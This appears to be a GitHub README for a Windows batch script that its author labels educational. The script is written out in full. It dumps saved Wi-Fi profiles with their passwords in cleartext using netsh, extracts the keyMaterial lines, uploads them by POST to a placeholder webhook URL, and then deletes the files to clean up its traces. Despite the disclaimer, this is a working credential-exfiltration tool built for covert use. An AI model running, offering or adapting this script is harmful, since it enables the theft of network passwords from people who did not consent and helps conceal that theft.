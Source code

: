 # 🔐 Wi-Fi Profile Extractor | ⚠️ For Educational Use Only

A sleek little batch script to extract saved Wi-Fi profiles (with passwords) on Windows machines.  
Built using native Windows tools (`netsh`, PowerShell) for quick & dirty demonstrations of how *your system already knows your Wi-Fi passwords* — and so can anyone with access. 👀

> ⚠️ **Disclaimer:** This project is for **educational** and **authorized** use only.  
> ❌ **Do NOT use this script on systems you don’t own or don’t have explicit permission to test.**  
> ☠️ Unauthorized use may be illegal under local and international laws (CFAA, GDPR, etc.).

---

## 🚀 What This Script Does

1. 🔍 Dumps all saved Wi-Fi profiles and their keys in cleartext using `netsh`.
2. 🧠 Parses the XMLs to extract just the passwords (`keyMaterial`).
3. ☁️ Uploads the extracted data to your custom webhook (e.g. `Webhook.site`).
4. 🧹 Cleans up all traces (XML files + password dump).

---

## 📁 Script Breakdown

```bat
@echo off
netsh wlan export profile key=clear
timeout /t 2
powershell Select-String -Path Wi-Fi*.xml -Pattern 'keyMaterial' > WiFi-Key
timeout /t 2
powershell Invoke-WebRequest -Uri "https://your-webhook-url" -Method POST -InFile WiFi-Key
timeout /t 2
del Wi* /s/f/q

##Author : Yashi Singh
